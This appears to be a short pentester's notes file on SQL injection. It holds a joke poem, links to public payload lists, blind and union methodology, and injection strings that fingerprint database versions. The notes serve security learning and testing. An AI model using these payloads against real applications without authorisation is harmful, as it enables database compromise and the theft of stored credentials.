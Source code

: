 # SQLinjection

An ode to SQLI:
```poem
sqlin' da morning 
sqlin' your evening
admin or one plus one equals two
single quote for strings
enum db char-by-char for those correct
tingles as the database query dumps things
comments breaking stuff on internet
admin password from table * select
database asleep pleasing
SELECT star FROM passwords stealing
by 7ru7h
```


## Useful resources

https://github.com/payloadbox/sql-injection-payload-list
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

## Methodology
#### Character and Command toolset
Comments
```sql
'
-- -
/*
```
Close-previous parentheses
```sql
)
```


## Consider SQL filtering

Blind SQLi
Cause SQL error -> Fix it -> add SQL queries
Use sleep(5) if reponse is instant SQL query, then there is no SQLi

Union SQLi:
Find number of columns -> Check suitable columns -> Attack




## Database type enumeration
```sql
MySQL and MSSQL
',INPUT=@@version,INPUT='
# Oracle
',INPUT=(SELECT banner FROM v$version),email='
# For SQLite
',INPUT=sqlite_version(),INPUT='
```





